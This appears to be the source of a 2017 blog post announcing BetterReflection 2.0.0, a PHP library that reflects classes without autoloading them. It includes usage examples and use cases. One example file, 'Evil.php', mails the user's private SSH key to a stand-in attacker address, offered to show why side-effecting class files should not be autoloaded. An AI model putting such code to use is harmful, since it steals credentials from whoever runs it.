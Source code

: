 ```yaml
---
layout: post
title: BetterReflection version 2.0.0 released
category: Security
tags: ["PHP", "Library", "Roave", "Clean Code", "Tools"]
year: 2017
month: 9
day: 18
published: true
summary: "BetterReflection version 2 was released: let's look at its main features and improvements"
description: BetterReflection is a library that aims at providing additional and improved Reflection API compared to PHP's ext-reflection
tweet: 909888939942711301
---
```

<p>
    <a href="https://twitter.com/RoaveTeam" target="_blank" rel="fn org">Roave</a>'s
    <a href="https://github.com/Roave/BetterReflection" target="_blank">BetterReflection</a>
    <a href="https://github.com/Roave/BetterReflection/releases/tag/2.0.0" target="_blank">2.0.0s</a>
    was released today!
</p>

<p>
    I and <a href="http://twitter.com/asgrim" target="_blank">James Titcumb</a> started working on this
    project back in 2015, and it is a pleasure to see it reaching maturity.
</p>

<p>
    The initial idea was simple: James would implement all my wicked ideas, while I
    would lay back and get drunk on Drambuie.
</p>

<p>
    <img
        src="../../img/posts/2017-09-18-roave-better-reflection-v2.0.0/drunken-coding.jpg"
        alt="Me, drunk in bed. Photo by @Asgrim, since I was too drunk to human"
    />
</p>

<p>
    Yes, that actually happened. Thank you, James, for all the hard work! 🍻
</p>

<p>
    <small>(I did some work too, by the way!)</small>
</p>

<h3>What the heck is BetterReflection?</h3>

<p>
    Jokes apart, the project is quite ambitious, and it aims at reproducing the entirety of the PHP
    reflection API without having any actual autoloading being triggered.
</p>

<p>
    When put in use, it looks like this:
</p>

~~~php
<?php

// src/MyClass.php

namespace MyProject;

class MyClass
{
    public function something() {}
}
~~~

~~~php
<?php

// example1.php

use MyProject\MyClass;
use Roave\BetterReflection\BetterReflection;
use Roave\BetterReflection\Reflection\ReflectionMethod;

require_once __DIR__ . '/vendor/autoload.php';

$myClass = (new BetterReflection())
    ->classReflector()
    ->reflect(MyClass::class);

$methodNames = \array_map(function (ReflectionMethod $method) : string {
    return $method->getName();
}, $myClass->getMethods());

\var_dump($methodNames);

// class was not loaded:
\var_dump(\sprintf('Class %s loaded: ', MyClass::class));
\var_dump(\class_exists(MyClass::class, false));
~~~

<p>
    As you can see, the difference is just in how you bootstrap the reflection API.
</p>

<p>
    Also, we do provide a fully backwards-compatible reflection API that you can use
    if your code heavily relies on <code>ext-reflection</code>:
</p>

~~~php
<?php

// example2.php

use MyProject\MyClass;
use Roave\BetterReflection\BetterReflection;
use Roave\BetterReflection\Reflection\Adapter\ReflectionClass;

require_once __DIR__ . '/vendor/autoload.php';

$myClass = (new BetterReflection())
    ->classReflector()
    ->reflect(MyClass::class);

$reflectionClass = new ReflectionClass($myClass);

// You can just use it wherever you had `ReflectionClass`!
\var_dump($reflectionClass instanceof \ReflectionClass);
\var_dump($reflectionClass->getName());
~~~

<p>
    How does that work?
</p>

<p>
    The operational concept is quite simple, really:
</p>

<ol>
    <li>
        We scan your codebase for files matching the one containing your class.
        This is fully configurable, but by default we use some ugly autoloader
        hacks to find the file without wasting disk I/O.
    </li>
    <li>
        We feed your PHP file to <a href="https://github.com/nikic/PHP-Parser" target="_blank">PHP-Parser</a>
    </li>
    <li>
        We analyse the produced <abbr title="Abstract Syntax Tree">AST</abbr> and
        wrap it in a matching <code>Roave\BetterReflection\Reflection\*</code>
        class instance, ready for you to consume it.
    </li>
</ol>

<p>
    The hard part is tracking the miriad of details of the PHP language,
    which is very complex and cluttered with scope, visibility and inheritance
    rules: we take care of it for you.
</p>

<h3>Use case scenarios</h3>

<p>
    The main use-cases for BetterReflection are most likely around security, code
    analysis and <abbr title="Ahead of Time">AOT</abbr> compilation.
</p>

<p>
    One of the most immediate use-cases will likely be in
    <a href="https://github.com/phpstan/phpstan" target="_blank">PHPStan</a>, which
    will finally be able to inspect hideous mixed OOP/functional/procedural code
    if <a href="https://github.com/phpstan/phpstan/issues/67" target="_blank">
        the current WIP implementation
    </a> works as expected.
</p>

<p>
    Since you can now "work" with code before having loaded it, you can harden API
    around a lot of security-sensitive contexts. A serializer may decide
    to not load a class if side-effects are contained in the file declaring it:
</p>

~~~php
<?php

// Evil.php
\mail(
    'haxxor@evil.com',
    'All ur SSH keys are belong to us',
    \file_get_contents('~/.ssh/id_rsa')
);

// you really don't want to autoload this bad one:
class Evil {}
~~~

<p>
    The same goes for classes implementing malicious <code>__destruct</code> code,
    as well as classes that may trigger autoloading of other malicious code.
</p>

<p>
    It is also possible to analyse code that is downloaded from the internet without
    actually running it. For instance, code may be checked against GPG signatures in
    the file signature before being run, effectively allowing PHP to "run only signed code".
    <a href="https://getcomposer.org/" target="_blank">Composer</a>, anybody?
</p>

<p>
    If you are more into code analysis, you may decide to compare two different
    versions of a library, and scan for <abbr title="Backwards Compatibility">BC</abbr>
    breaks:
</p>

~~~php
<?php
// the-library/v1/src/SomeApi.php

class SomeAPI
{
    public function sillyThings() { /* ... */ }
}
~~~

~~~php
<?php
// the-library/v2/src/SomeApi.php

class SomeAPI
{
    public function sillyThings(UhOh $bcBreak) { /* ... */ }
}
~~~

<p>
    In this scenario, somebody added a mandatory parameter to <code>SomeAPI#sillyThings()</code>,
    effectively introducing a BC break that is hard to detect without having both versions of the
    code available, or a good migration documentation (library developers: please document this
    kind of change!).
</p>

<p>
    Another way to leverage the power of this factory is to compile factory code into highly 
    optimised dependency injection containers, like
    <a href="https://github.com/PHP-DI/PHP-DI/pull/507" target="_blank">PHP-DI</a> started doing.
</p>

<h3>Future use cases?</h3>

<p>
    In addition to the above use-case scenarios, we are working on additional
    functionality that would allow
    <a href="https://github.com/Roave/BetterReflection/blob/2.0.0/demo/monkey-patching/index.php" target="_blank">
        changing code before loading it
    </a>. 
</p>

<p>
    Is that a good idea?
</p>

<p>
    ... I honestly don't know.
</p>

<p>
    Still, there are proper use-case scenarios around
    <abbr title="Aspect Oriented Programming">AOP</abbr> and proxying libraries,
    which would then be able to work even with <code>final</code> classes.
</p>

<p>
    You will likely see these features appear in a new, separate library.
</p>

<h3>Credits</h3>

<p>
    To conclude, I would like to thank <a href="https://github.com/asgrim" target="_blank">James Titcumb</a>, 
    <a href="https://github.com/kukulich" target="_blank">Jaroslav Hanslík</a>,
    <a href="https://github.com/marcosh" target="_blank">Marco Perone</a> and
    <a href="https://github.com/POPSuL" target="_blank">Viktor Suprun</a> for the effort they put in this release,
    providing patches, improvements and overall helping us building something that may become
    extremely useful in the PHP ecosystem.
</p>
